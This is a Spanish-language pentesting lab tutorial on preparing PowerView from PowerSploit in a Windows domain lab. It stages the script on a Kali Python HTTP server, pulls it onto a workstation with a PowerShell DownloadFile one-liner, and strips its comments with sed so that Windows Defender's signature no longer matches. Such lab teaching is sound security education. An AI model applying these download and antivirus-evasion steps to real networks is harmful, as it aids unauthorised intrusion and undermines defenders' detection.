 ```yaml
---
icon: binoculars
---
```


# PowerView

En este caso vamos a ver una herramienta bastante famosa para `hacking` a parte de otras en entornos de `Windows`.

Lo primero que vamos hacer es configurar una `GPO` que aplique a los diferentes equipos dentro de nuestro `DC`.

Esto lo vamos hacer ya que en los diferentes equipos que estan dentro del dominio del `DC` no puede ejecutarse scripts de `PowerShell` por defecto como medida de seguirdad, pero en algunos casos los `Administradores` necesitan habilitar esta opcion para hacer algunos cambios en los diferentes equipos y esto se hace mediante una regla de `GPO` para que se aplique a los equipos que queramos a la vez y no tengamos que ir uno por uno.

Por lo que vamos a irnos en el `DC` al panel de `Servidor del Administrador` -> `Herramientas` -> `Administracion de directivas de grupo` -> aqui vamos a crear una `GPO` a nivel de dominio que solo afecte a nuestro dominio click derecho en `corp.local` -> `Crear un GPO en este dominio y vincularlo aqui...` -> se llamara `Script Execution Policy` -> `Aceptar` -> click derecho en el `Script Execution Policy` -> `Editar` -> como vamos a crear una `GPO` que va a estar a nivel de equipo nos iremos a `Configuracion del Equipo` -> `Directivas` -> `Plantillas administrativas` -> `Componentes de Windows` -> `Windows PoweShell` -> pulsamos doble click en `Activar la ejecuccion de scripts` -> marcamos `Habilitada` -> seleccionamos en `Directivas de ejecuccion` el `Permitir Scripts locales y scripts remotos firmados` -> `Aplicar` -> `Aceptar`.

Con esto ya estaria aplicado correctamente esta `politica`/`GPO`, ahora tendremos que reiniciar los equipos del dominio que en mi caso son 2 y se aplicaran las politicas correctamente.

### Instalación de PowerView

De mientras vamos instalar `PowerView` en nuestro `kali`.

Vamos a suponer que para la auditoria nos han proporcionado credenciales de un usuario del dominio para conectarnos de forma remota, pero sin privilegios de administrador.

En el siguiente link vamos a ver un `suit/conjunto` de herramientas para todas las fases de un `pentest` de un ejercicio de seguridad o de `hacking etico` para normalmente realizar recopilacion de informacion, explotacion, analisis de vulnerabilidades, etc... Sobre equipos de `Microsoft` todas las cosas que hace estan implementadas en `PowerShell` por lo que es muy util para nosotros.

URL = [GitHub PowerSploit](https://github.com/PowerShellMafia/PowerSploit)

Vamos a irnos al modulo de `recon` (Reconocimiento) -> entraremos en `PowerView.ps1` en el script.

Una vez que estemos aqui dentro:

[Script PowerShell](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

Lo copiaremos entero y haremos lo siguiente:

```shell
nano PowerView.ps1

#Dentro del nano

<PEGAR_SCRIPT_POWERVIEW>
```

Lo guardamos y ya lo tendriamos listo en nuestro `kali`.

Vamos a probar 2 formas de enumerar un sistema `Windows` tanto con `PowerView` de forma automatizada, como de forma manual sin `PwerView` ya que en algunos casos esto peude ser detectado por antivirus o herramientas de seguridad.

Imaginemos que nos propocionan la maquina `WS01` para realizar nuestras pruebas de pentesting, vamos a probar de primeras el `PowerView` en dicha maquina de la siguiente forma:

### Transferencia de archivo .ps1 a maquina windows

Antes tendremos que realizar una pequeña configuracion ya que al reiniciar o apagar el equipo se desactiva, tendremos que darle click derecho en el `adaptador de red` -> `Ethernet` -> `Configuracion de uso compartido avanzado` -> y activar las 2 opciones `Activar la deteccion de redes` y `Activar el uso compartido de archivos e impresoras` -> `Guardar cambios` pedira credenciales de administrador, las metemos y listo.

<figure><img src="../../../.gitbook/assets/image (225).png" alt=""><figcaption></figcaption></figure>

Con esto ya nos podremos pasar el archivo `.ps1` a la maquina `Windows` todo esto lo podremos hacer ya que tenemos acceso a dicha maquina.

Haremos el mismo proceso pero para con el `WS02`, por lo que si hacemos en un `PwerShell` lo siguiente:

```powershell
ping WS02
```

Tiene que dar `ping` y vicebersa.

Ahora nos vamos a crear en nuestro `kali` un servidor de `python3` en la misma carpeta del archivo `PowerView.ps1` para pasarnos el archivo de forma facil y sencilla, ya profundizaremos en tecnicas de `PostExplotacion` para este tipo de cosas, pero en este caso lo haremos de forma sencilla.

```shell
python3 -m http.server 80
```

Y en la maquina `Windows` buscaremos la siguiente direccion `URL` en un navegador web:

```
URL = http://<IP>/PowerView.ps1
```

Si le damos a `ENTER` veremos que se nos descarga el archivo.

O tambien lo podremos hacer desde un `PowerShell` de la siguiente forma:

```powershell
cd .\Desktop
(New-Object System.NET.WebClient).DownloadFile("http://<IP>/PowerView.ps1", "PowerView.ps1")
```

Una vez que ya tengamos el archivo en nuestro escritorio de `WS01` haremos lo siguiente.

### Prueba de forma automatica PoweView.ps1

Ahora para lanzar este script lo hariamos de la siguiente forma en un `PwerShell` del equipo `WS01`:

```powershell
. .\PowerView.ps1
```

Info:

```
. : No se puede cargar el archivo C:\Users\empleado1\Desktop\PowerView.ps1. El archivo C:\Users\empleado1\Desktop\PowerView.ps1 no está firmado
digitalmente. No se puede ejecutar este script en el sistema actual. Para obtener más información acerca de la ejecución de scripts y la configuración de la
directiva de ejecución, consulta about_Execution_Policies en https:/go.microsoft.com/fwlink/?LinkID=135170.
En línea: 1 Carácter: 3
+ . .\PowerView.ps1
+   ~~~~~~~~~~~~~~~
    + CategoryInfo          : SecurityError: (:) [], PSSecurityException
    + FullyQualifiedErrorId : UnauthorizedAccess
```

Nos da un error de que puede contener archivos maliciosos y no lo ejecuta, ya que `Windows Defender` tiene guardado el `hash` de dicho fichero ya que se utiliza mucho para auditorias o practicas de `hacking etico` por lo que lo bloquea.

### Bypass Windows Defender PowerView

Lo que tendremos que hacer sera eliminar todos los comentarios del script para que no tenga esa `"firma"` y que el `hash` con el que esta identificando el `Windows Defender` no sea el mismo, por lo que lo va a tomar como un archivo legitimo, nos iremos al `kali` y pondremos lo siguiente:

```shell
sed '/<#/,/#>/d' PowerView.ps1 > new_powerview.ps1
```

Ahora una vez que ya hayamos eliminado todos los comentarios con este comando, nos lo volveremos a pasar al `WS01` como hicimos anteriormente, una vez que ya lo tengamos en el equipo, ejecutaremos el mismo comando de antes de `PowerShell`:

```powershell
. .\new_powerview.ps1
```

Con esto no nos aparecera nada por lo que lo ejecutamos correctamente y ya podremos utilizar `PowerView` en este equipo.
